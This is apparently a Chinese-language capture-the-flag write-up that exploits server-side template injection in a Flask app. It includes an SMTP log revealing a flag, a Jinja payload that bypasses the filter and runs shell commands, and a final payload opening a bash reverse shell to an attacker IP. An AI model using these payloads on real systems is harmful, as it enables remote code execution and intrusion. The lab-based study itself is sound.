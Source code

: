 ```python title="/sendMessage"
            except:
                return render_template('bad-connection.html')
        elif not current_user.config:
            return redirect('/configuration')
        else:
            return redirect('/profile')

    return render_template('sender.html')
```

那么就可以尝试直接进行 SSTI 注入

首先，将 SSTI 的载荷通过 `/profile` 路由进行传递，例如

```plaintext
http://10.13.37.14/profile?name={{7*7}}
```

然后正常的发送邮件，即可收到

```plaintext
Incoming connection from ('10.13.37.14', 58560)
Peer: ('10.13.37.14', 58560)
Data: b'ehlo [172.22.0.2]'
Data: b'mail FROM:<no-reply@faradaysec.com>'
===> MAIL FROM:<no-reply@faradaysec.com>
sender: no-reply@faradaysec.com
Data: b'rcpt TO:<pastaflora@faradaysec.com>'
===> RCPT TO:<pastaflora@faradaysec.com>
recips: ['pastaflora@faradaysec.com']
Data: b'data'
Data: b'Subject: a\r\n\r\nAn event was reported at 7*7}}:\r\na\r\nHere is your gift FARADAY{ehlo_@nd_w3lcom3!}'
---------- MESSAGE FOLLOWS ----------
b'Subject: a'
b'X-Peer: 10.13.37.14'
b''
b'An event was reported at 7*7}}:'
b'a'
b'Here is your gift FARADAY{ehlo_@nd_w3lcom3!}'
------------ END MESSAGE ------------
Data: b'quit'
```

但是就会遇到一个问题，疑似 `{{` 双大括号被过滤了，尝试进行绕过

```plaintext
# {% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('ls /').read()")}}{% endif %}{% endfor %}
c.__init__.__globals__[\'__builtins__\'].eval("__import__(\'os\').popen(\'ls /\').read()")}}:'
```

看样子还有一点过滤，继续改进 payload

```plaintext
{% if request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('bash -c"bash -i >& /dev/tcp/10.10.16.2/9999 0>&1"')['read']() =='chiv' %} a {% endif %}
```
